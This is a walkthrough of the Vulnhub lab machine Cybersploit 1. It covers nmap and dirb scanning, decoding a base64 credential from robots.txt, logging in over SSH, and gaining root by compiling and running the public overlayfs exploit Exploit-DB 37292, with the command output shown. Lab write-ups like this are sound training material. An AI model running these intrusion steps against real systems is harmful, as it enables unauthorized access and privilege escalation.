 OG Vulnhub box: https://www.vulnhub.com/entry/cybersploit-1,506/

Since target was given I don't have to run netdiscover to find target:

Target is: 192.168.52.92

$ nmap 192.168.52.92 -p- -sV

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 17:07 EDT

Nmap scan report for 192.168.52.92

Host is up (0.0013s latency).

Not shown: 65533 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds

  

Check firefox on 80

![](https://lh4.googleusercontent.com/RAQ87dgfPasHGo6vxerZ_7ZOCrxCmZFDjNs0uuRKMswkOEjSvnaaQTVErXV0auuL8bKozxJQXUI3IVFlC_Jq_8rxRFSu9ihCm9ZCC-95B8TRXy9ok0LLw8vXpAn7Ofi4Kw=w1280)

This image shows up. Time to check directories and subdirectories. Time to run dirb and subdirwith the former for directories(website.com/page1) and latter for subdirectories such as app.website.com

???(kali?kali)-[~]

??$ dirb http://192.168.52.92  

  

-----------------

DIRB v2.22    

By The Dark Raver

-----------------

  

START_TIME: Thu Apr 20 21:19:08 2023

URL_BASE: http://192.168.52.92/

WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

  

-----------------

  

                                                                    GENERATED WORDS: 4612

  

---- Scanning URL: http://192.168.52.92/ ----

                                                                    + http://192.168.52.92/cgi-bin/ (CODE:403|SIZE:289)                

+ http://192.168.52.92/hacker (CODE:200|SIZE:3757743)              

+ http://192.168.52.92/index (CODE:200|SIZE:2333)                  

+ http://192.168.52.92/index.html (CODE:200|SIZE:2333)             

+ http://192.168.52.92/robots (CODE:200|SIZE:53)                   

+ http://192.168.52.92/robots.txt (CODE:200|SIZE:53)               

+ http://192.168.52.92/server-status (CODE:403|SIZE:294)           

-----------------

END_TIME: Thu Apr 20 21:19:12 2023

DOWNLOADED: 4612 - FOUND: 7

Saw robots.txt so going there and I find a base64 looking string

Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=

  

AI decoding with cyberchef verification yields

  

The text you provided appears to be a Base64 encoded string. Let me decode it for you:

"Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0="

Decoded result: "cybersploit{youtube.com/c/cybersploit}"

It seems to be a URL for a YouTube channel named "cybersploit".

Checking page source code also nets the user itsskv

Try logging into ssh now with the username and the base64 password

![](https://lh6.googleusercontent.com/KkuY7amvTng0a6U2b36J4A_eXkrFpI140y2BQ-x7utVcL1Jy8xk2-uDSMIpDqumNskcg4qLTok_wsfTX4O3Y1ZSc-RXz1ki4eW12W-3by5yb3JwYyXUM6PFxFUY_wjATGg=w1280)

ls in . and see flag2.txt but after a cat the flag is another file. Checking out local.txt I find a string of text which I submit as the flag and get the first 50%.

  

Now for root.

Checking the OS version first

itsskv@cybersploit-CTF:~$ uname -a

Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux

itsskv@cybersploit-CTF:~$ cat /etc/issue

Ubuntu 12.04.5 LTS \n \l

  

itsskv@cybersploit-CTF:~$ 

Now to check for local exploits on Ubuntu 12.04.5 LTS on exploitdb

![](https://lh3.googleusercontent.com/cI1DAjViRVQLfc6UHkRwNb82Ed6rfh4b9hYjC4J0ouiY6emR_1w61o3ArNJixAHqazKacOao3Ul6oPCsn5eThDfYDmviDjDiyW8q8ej6lgYCe1pGNu9xkMV0UVAer7Tutg=w1280)

[https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Now downloading one of the exploits for local. Will use the overlayFS one as it's the "latest" one

???(kali?kali)-[~]

??$ scp 37292.c itsskv@192.168.52.92:/home/itsskv

itsskv@192.168.52.92's password: 

37292.c  

Now the c exploit is on the target machine for a local privesc

itsskv@cybersploit-CTF:~$ ls

37292.c    Downloads         local.txt  Public

Desktop    examples.desktop  Music      Templates

Documents  flag2.txt         Pictures   Videos

itsskv@cybersploit-CTF:~$ 

Now time to compile the c code then run the program

itsskv@cybersploit-CTF:~$ gcc 37292.c 

itsskv@cybersploit-CTF:~$ ./a.out 

spawning threads

mount #1

mount #2

child threads done

/etc/ld.so.preload created

creating shared library

# whoami

root

# 

cool.

Opportunity to upgrade shell to a more stable one here. Use shell upgrade commands.

Now to look through root's files

# ls

37292.c    Downloads  Public     a.out             local.txt

Desktop    Music      Templates  examples.desktop

Documents  Pictures   Videos     flag2.txt

# cd /

# ls

bin    home            media  run      tmp

boot   initrd.img      mnt    sbin     usr

cdrom  initrd.img.old  opt    selinux  var

dev    lib             proc   srv      vmlinuz

etc    lost+found      root   sys      vmlinuz.old

# cd root

# ls

Desktop    Downloads  Pictures  Templates  finalflag.txt

Documents  Music      Public    Videos     proof.txt

# cat finalflag.txt

Your flag is in another file...

# cat proof.txt

f2cb93ee2456de2ec462b74e2f5620b8

And Boot2Root 🐱‍💻